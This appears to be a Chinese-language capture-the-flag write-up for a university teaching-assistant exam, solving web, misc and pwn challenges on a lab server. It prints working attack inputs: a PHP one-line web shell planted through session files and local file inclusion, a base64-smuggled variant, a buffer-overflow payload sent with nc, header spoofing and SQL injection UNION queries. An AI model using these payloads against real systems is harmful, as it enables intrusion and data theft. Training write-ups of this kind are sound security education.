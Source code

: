 ```yaml
---
title : 107 ta exam writeup
tags: 大學,助教,安全程式
---
```


# Misc
## Hidden Domain
crt.sh會記錄所有申請https的domain
使用% 找子域名
![](https://i.imgur.com/rmXoVxa.png)
找到有一個很長的域名有簽https
![](https://i.imgur.com/S3GxAYn.png)
打開
![](https://i.imgur.com/BpboCPk.png)


## 一張圖片
下載下來用小畫家 填滿
![](https://i.imgur.com/CzAzw1g.png)
![](https://i.imgur.com/41K0wEt.png)

## Easy Reverse
strings 下來 拚湊一下
![](https://i.imgur.com/Pq1HOW9.png)
`CTF{easyisntit}`


# 網頁
## Jump 10101
`curl http://140.134.25.138:10101/ -i`
![](https://i.imgur.com/VkuNP7a.png)
發現他轉跳到index0.php
`curl http://140.134.25.138:10101/index0.php -i`
多跳幾次

![](https://i.imgur.com/NIBTOBP.png)




## Session Easy 10102
只是把session 給他就拿到flag了
http://140.134.25.138:10102/?fox=自己session_id

![](https://i.imgur.com/7fJYfBL.png)


## Session Get Shell 10103
foxs 放 一句話木馬
fox 放 /tmp/sess_自己的session
cmd 參數放 指令
http://140.134.25.138:10103/?foxs=%3C?php%20system($_GET[%27cmd%27]);?%3E&fox=/tmp/sess_bhfmu5o6dk63llt5n1n83vitth&cmd=ls%20/

![](https://i.imgur.com/KsVEFk6.png)

再來把cmd 改 ls /flag
![](https://i.imgur.com/NECi0Ek.png)

再來改 cmd 改 cat /flag/flag.txt
![](https://i.imgur.com/wOVOj3G.png)


## Session Hard 10104 極難
取自Hitcon 2018想法
題目發現 session是關閉的
所以要用特殊方式去觸發session打開
php 有個東西叫 session.upload_progress
是打開的
所以只要用
`PHP_SESSION_UPLOAD_PROGRESS` 去上傳檔案
會打開php session

`curl http://140.134.25.138:10104/ -H 'Cookie: PHPSESSID=fox' -F 'PHP_SESSION_UPLOAD_PROGRESS=foxsarecute'  -F 'file=@./上傳檔案路徑'`

注意：`session.upload_progress.cleanup`是打開的
過一陣子session會被刪掉

![](https://i.imgur.com/IgsPPF0.png)

**這漏洞讓LFI=GET SHELL**

參考資料：https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html?fbclid=IwAR0WFn8hqcSCLuf6Bd-hNYeyZW27zA2uNrIdNpauDGU9vxeXBc2491mgs1Q

## flask在搞? 10105 
沒有過濾 `../`跳脫資料夾導致資料外洩

用nc
![](https://i.imgur.com/apFEyO2.png)

## Write Script 10106
經觀察header 發現他有跟我講下次用的method
![](https://i.imgur.com/7QJJdUp.png)


寫python爬蟲 來自動跑不同http method

[requests自訂method](http://docs.python-requests.org/en/master/user/advanced/)
```python=
from requests import Request, Session
import requests
s = Session()
url ="http://140.134.25.138:10106/"
a=requests.get(url)
next_method = a.headers['Next_Method']
flag = a.text
while True:
        req = Request(next_method, url)
        prepped = s.prepare_request(req)
        settings = s.merge_environment_settings(prepped.url, None, None, None, None)
        resp = s.send(prepped, **settings)
        flag += resp.text
        if resp.text=="}":
                print (flag)
                break
        next_method = resp.headers['Next_Method']
```

## APK 10107
安裝apk 
![](https://i.imgur.com/lDKE0jO.png)

攔封包
![](https://i.imgur.com/hV4aWER.png)

## JS so HARD 10108
查看原始碼發現一個DATA
和一個自訂一javascript

![](https://i.imgur.com/FBCqZVx.png)

打開js看起來是用來解碼的

![](https://i.imgur.com/YF6kaJO.png)

經google發現 他是用packjs加密了
去找[unpack js](http://matthewfl.com/unPacker.html)

![](https://i.imgur.com/tUKbU8Y.png)

得到一串js
經解析 看到最後有一段json 
把它存到另一個變數看看
![](https://i.imgur.com/1W34iv4.png)

到console把剛剛修改的js覆蓋 在執行一次
最後把變數拔出來
![](https://i.imgur.com/RH4fdUT.png)

## Fake IP 10109
開場 又是這個
![](https://i.imgur.com/B5d1mfE.png)

修改`X-Forwarded-For: 127.0.0.1`
發現
![](https://i.imgur.com/iB2A7lI.png)

修改Host 
![](https://i.imgur.com/diCJ4qL.png)


## Session Get Shell 2 10110
發現 要從 session id下手
結果發現特殊符號不能直接拿來當session id

把一句話木馬 拿去base64
`<?php system($_GET['cmd']);?>d`
d是為了讓base64出來解果不出現`=`
編碼後
`PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz5k`
丟到 sessionid
![](https://i.imgur.com/3MeFkoT.png)

確定檔案上去了
http://140.134.25.138:10110/?fox=/tmp/sess_PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz5k
![](https://i.imgur.com/T0hDRl6.png)


使用php stream base64 解碼
http://140.134.25.138:10110/?fox=php://filter/convert.base64-decode/resource=/tmp/sess_PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz5k&cmd=ls
![](https://i.imgur.com/xaorkdj.png)

最後 `ls /`
http://140.134.25.138:10110/?fox=php://filter/convert.base64-decode/resource=/tmp/sess_PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz5k&cmd=cat%20/flag/flag.txt
找到flag
![](https://i.imgur.com/2fFYBls.png)

## pwn 10111
確定 debug位子
![](https://i.imgur.com/SUC2guQ.png)
送過去
`python -c "print('a'*0x18+'\x66\x07\x40\x00\x00\x00\x00\x00')" -| nc 140.134.25.138 10111
`
![](https://i.imgur.com/e3583xK.png)


## LFI 10122
LFI漏洞
用php stream 拿到原始碼
http://140.134.25.138:10122/?page=php://filter/convert.base64-encode/resource=index.php
![](https://i.imgur.com/LdNb5e1.png)
拿去decode
![](https://i.imgur.com/iWP4KqR.png)

## SQL Injection II 10113
先確定 資料庫名稱
`'  union select 'a','a', schema_name FROM information_schema.schemata;#`
![](https://i.imgur.com/zCIVuUI.png)

再確定表格名稱
`a'  union select 'a','a', table_name from information_schema.tables where table_schema = 'ctf';`
![](https://i.imgur.com/jKKMdOp.png)

最後找到欄位
`'  union select 'a','a', column_name  FROM information_schema.columns WHERE table_name = 'ctfffff';`
![](https://i.imgur.com/GPvTqmV.png)

`'  union select 'a','a', flagggggggggggg from ctfffff ;`
![](https://i.imgur.com/dO3DNiv.png)


